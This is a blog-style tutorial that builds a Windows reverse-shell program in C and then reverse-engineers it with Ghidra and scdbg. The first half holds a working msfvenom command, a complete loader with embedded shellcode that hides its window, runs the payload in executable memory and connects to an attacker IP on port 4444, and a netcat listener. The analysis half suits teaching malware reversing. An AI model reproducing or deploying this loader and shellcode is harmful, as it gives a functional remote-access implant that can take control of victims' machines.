 ```yaml
---
title:  "Malware 101: Develop and Analyze our own malware"
tags:
- Malware
- Reverse-Engineering
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode. The maldev and malware reversing is only for education purpose only!

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginners might have no idea what does the shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode is not only for shell access, instead there's much other shellcode action that could be done by the author like privilege escalation and many more.

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste it into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to be familiar with C and WinAPI. Below codes, I've put some comments to guide and understand what does the code does.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here is some documentation from Microsoft:

0. ShowWindow = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)
1. VirtualAlloc = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
2. RtlCopyMemory = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
3. CreateThread = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
4. WaitForSingleObject = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

## Test out our malware
Check for any errors in your code and now we are good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be on 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode
From the decompiler code, we can locate the shellcode in the Ghidra.
![image](https://user-images.githubusercontent.com/56353946/134120641-35e9e82b-f9ef-4a72-ac4b-7287fc654362.png)

This will bring us to the shellcode bytes in the "Listing view".
![image](https://user-images.githubusercontent.com/56353946/134120921-119550ac-b403-4ac9-bb6f-61fa2595368f.png)

To extract the shellcode, select all the bytes until the finish.
![image](https://user-images.githubusercontent.com/56353946/134121249-9c8cb16d-ca5e-44ab-91b2-71f6b94d077f.png)

Go to Window tab > Bytes: filename.exe. The selected bytes now also been selected in the hex view.
![image](https://user-images.githubusercontent.com/56353946/134121356-61fe7c0b-d3df-4ec3-aaf9-6a9cef4774ca.png)

Copy the bytes and paste into hex editor like HxD. And save it.
![image](https://user-images.githubusercontent.com/56353946/134121520-9771cd80-3114-4689-a466-31ae8b9e5211.png)

Now to analyze the shellcode, there's some options:
1. Use scdbg <-- We will use this
2. Use jmp2it
3. Convert the shellcode into executable. And debug the executable using x32dbg.

## Shellcode analysis
The output below of the scdbg for our shellcode is quite helpful. In our case here, the shellcode was easy to be analyzed. At sometimes, a complex shellcode will not be a simpler like this

![image](https://user-images.githubusercontent.com/56353946/134122559-81100c4a-f7a0-4cc4-83fc-23006b87a167.png)

`LoadLibraryA(ws2_32)`: First, the process will load the DLL file "ws2_32.dll" using LoadLibrary API.

`WSAStartup(190)`: After that, it calls WSAStartup function to initiate the utilization of the Winsock DLL by the current process.

`WSASocket(af=2, tp=1, proto=0, group=0, flags=0)`: It then call the WSASocket to creates a socket.

If we refer the documentation of WSASocket, here the explaination about the number in the prameter:
- af=2 -> The Internet Protocol version 4 (IPv4) address family. 
- tp=1 -> SOCK_STREAM
- proto=0 -> the service provider will choose the protocol to use
- group=0 -> No group operation is performed.
- flags=0 -> A set of flags used to specify additional socket attributes.

`connect(h=42, host: 192.168.0.128 , port: 4444 ) = 71ab4a07`: At this line, the program will establishes a connection to a specific socket. The parameter contains IP of the attacker and his port which will be used to get a reverse shell.

`CreateProcessA( cmd,  ) = 0x1269`: Our shellcode then executes cmd.exe by calling CreateProcessA API

`WaitForSingleObject(h=1269, ms=ffffffff)`: This function will terminate the program when our reverse shell been killed.

`ExitProcess(0)`: Exit and terminate current process.

# Sum up
In the conclusion, we've learn how to develop a malware that leverage our metasploit shellcode to create the connection to our C2. In the code, we can see that the malware first will be run in the background. And then it allocates some memory space for our shellcode. After allocating the memory region, our shellcode is then being copy to the allocated memory. Then, it uses CreateThread API to execute the shellcode. In the shellcode, it will connect to our IP and port to gain the reverse shell of cmd.exe.
